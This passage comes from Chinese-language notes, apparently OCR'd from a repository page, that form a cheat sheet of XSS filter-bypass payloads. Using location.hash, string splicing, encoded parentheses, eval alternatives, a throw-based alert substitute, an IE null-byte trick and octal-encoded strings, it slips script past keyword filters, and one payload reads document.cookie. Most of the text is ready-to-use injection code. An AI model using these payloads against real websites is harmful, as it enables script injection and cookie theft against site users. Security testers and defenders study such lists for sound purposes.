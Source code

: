 3. 利用location绕过关键字检测
![](location3.png)
- hash方法
```javascript
url中：`http://xxx.xxx.xxx/#alert(1)`
<body/onload=eval(location.hash.slice(1))>
Set.constructor(location.hash.substr(1))()
```
- 字符拼接
```javascript
<img src="1" onerror=location="javascr"+"ipt:al"+"ert%28docu"+"ment.co"+"okie%29">
<img src="1" onerror="a=&quot;%2&quot;,location=&quot;javascript:aler&quot;+&quot;t&quot;+a+&quot;81&quot;+a+&quot;9&quot;" ""=""> //拼接url编码的%28 %29。
```

4. eval函数的替代
- 匿名函数
```javascript
<img src="1" onerror=Function(alert(1))()>
```
- 时钟函数
```javascript
<img src=# onerror=setTimeout(alert(1),1000)>
<img src=# onerror=setInterval(alert(1),1000)>
```
- IE特有的execScript
```javascript
execScript(location.hash.substr(1)) 
```

6. 过滤了.
- 使用with
```javascript
with(location)with(hash)eval(alert(1))
```

7. HTTP
- 防止 CRLF 注入/HTTP 响应拆分
- 禁止 TRACE 和其他非必要方法

8. alert的替代
- throw接受异常，[文章](https://xz.aliyun.com/t/4936)
```javascript
<a onmouseover="javascript:top.onerror=alert;throw 1">aa</a>
```

9. IE8/IE9 %00绕过
```javascript
<img src="" onerror=javascript:top.onerror=al%00ert;throw 1>
```

10. 一些地方被编码无法执行，我们可以通过其他地方调用这段代码来执行。

11. [无字母xss](https://xz.aliyun.com/t/1267)
- 利用对象可以写成中括号形式并编码对象
```javascript
//"...".constructor.constructor("alert(1)")()
	"..."["\163\165\142\163\164\162"]["\143\157\156\163\164\162\165\143\164\157\162"]("\141\154\145\162\164\50\61\51")()
```
- jsfuck
